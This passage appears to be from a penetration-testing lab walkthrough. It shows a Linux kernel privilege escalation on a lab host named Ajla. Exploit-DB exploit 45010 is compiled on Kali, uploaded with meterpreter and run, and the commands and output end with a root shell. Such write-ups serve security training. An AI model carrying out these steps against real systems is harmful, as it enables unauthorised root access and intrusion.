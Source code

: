 - While many of these seem like they might work, one in particular grabs our attention. 

- After reviewing the source code for exploit 45010,737 we see that it is well written, was tested against several different kernel versions, and has great instructions on compiling and executing. 

- First, let’s find out if Ajla has gcc.

> The kernel versions don’t always have to match exactly for an exploit to work. In this case, the exploit was tested with kernel 4.13.9, which is more recent than the kernel on Ajla.

```bash
gcc
/bin/sh: 1: gcc: not found
find / -name gcc -type f 2>/dev/null
/usr/share/bash-completion/completions/gcc
```

- Unfortunately, Ajla does not have the gcc binary installed **so we will need to compile the exploit on our Kali machine, transfer it to Ajla, and hope that it will still work. **

- **Alternatively and if necessary, we could also create a virtual machine that is identical to our target system relative to the OS and kernel versions and compile the exploit on it**.

## Privilege Escalation

First, we will copy the exploit to our home directory so we don’t alter the original version. Once the copy is made, we will follow the compile instructions in the file.

```bash
kali@kali:~$ cp /usr/share/exploitdb/exploits/linux/local/45010.c ./
kali@kali:~$ gcc 45010.c -o 45010
kali@kali:~$ 
```

- The exploit compiled without errors so we will use meterpreter to upload it to Ajla.

```bash
meterpreter > upload /home/kali/45010 /tmp/
[*] uploading : /home/kali/45010 -> /tmp/
[*] uploaded : /home/kali/45010 -> /tmp//45010
```

- Finally, it’s time to run the exploit against Ajla.

```bash
meterpreter > shell 
Process 1546 created.
Channel 5 created.
cd /tmp
chmod +x 45010
./45010
whoami
root
```

- In Listing 926, the exploit does not give us any output but running whoami tells us that we are now running as the root user.
